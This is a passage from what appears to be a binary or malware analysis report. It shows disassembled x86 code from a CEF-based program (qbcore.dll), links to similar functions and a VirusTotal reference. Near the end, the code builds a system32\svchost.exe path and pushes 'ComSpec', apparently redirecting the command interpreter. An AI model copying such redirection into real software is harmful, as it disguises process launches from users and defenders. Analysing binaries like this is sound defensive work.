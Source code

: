 je 0x40d4a8
push str.ppapi_flash_args
lea ecx,[ebp-0x218]
call fcn.00402ab0
mov ecx,dword[ebp+0xc]
lea edx,[ebp-0x218]
push edx
mov ebx,3
mov eax,dword[ecx]
mov eax,dword[eax+0x2c]
call eax
mov byte[ebp-0x249],1
test al,al
jne 0x40d4af
mov byte[ebp-0x249],0
test bl,2
je 0x40d4f9
mov eax,dword[ebp-0x214]
and ebx,0xfffffffd
mov dword[ebp-method.CefStringBase_struct_CefStringTraitsUTF16_.virtual_0],0x43a1d8
test eax,eax
je 0x40d4f9
cmp byte[ebp-0x210],0
je 0x40d4e8
push eax
call sub.qbcore.dll_cef_string_utf16_clear
push dword[ebp-0x214]
call fcn.0042418a
add esp,8
mov dword[ebp-0x214],0
mov byte[ebp-0x210],0
test bl,1
je 0x40d520
mov esi,dword[ebp-0x244]
test esi,esi
je 0x40d520
cmp byte[ebp-0x240],0
je 0x40d520
push esi
call sub.qbcore.dll_cef_string_utf16_clear
push esi
call fcn.0042418a
add esp,8
cmp byte[ebp-0x249],0
je 0x40d57d
xor eax,eax
push 0x206
push eax
mov word[ebp-0x20c],ax
lea eax,[ebp-0x20a]
push eax
call fcn.004250a0
add esp,0xc
lea eax,[ebp-0x20c]
push 0x103
push eax
call dword[sym.imp.KERNEL32.dll_GetWindowsDirectoryW]
push str.system32svchost.exe
lea eax,[ebp-0x20c]
push eax
call dword[sym.imp.SHLWAPI.dll_PathAppendW]
lea eax,[ebp-0x20c]
push eax
push str.ComSpec

[similar_1_ref]: /report/fcn.00438d70@4fe6510221c33bf023f6abed461fc13f
[similar_2_ref]: /report/main@fca52b995e756cff97168f6fef94b37d
[similar_3_ref]: /report/method.CMemFile.virtual_36@9c2b894b84f59672d8be2e984066f76f
[similar_4_ref]: /report/method.CFile.virtual_36@e5d49e0823e602f2ee948ac39d32c1eb
[similar_5_ref]: /report/fcn.0053a4cd@7453c96a6fbd42ec690b8deb53eafcba
[virustotal_ref]: https://www.virustotal.com/gui/file/ba86269e5231930ee4def4088ddb8d19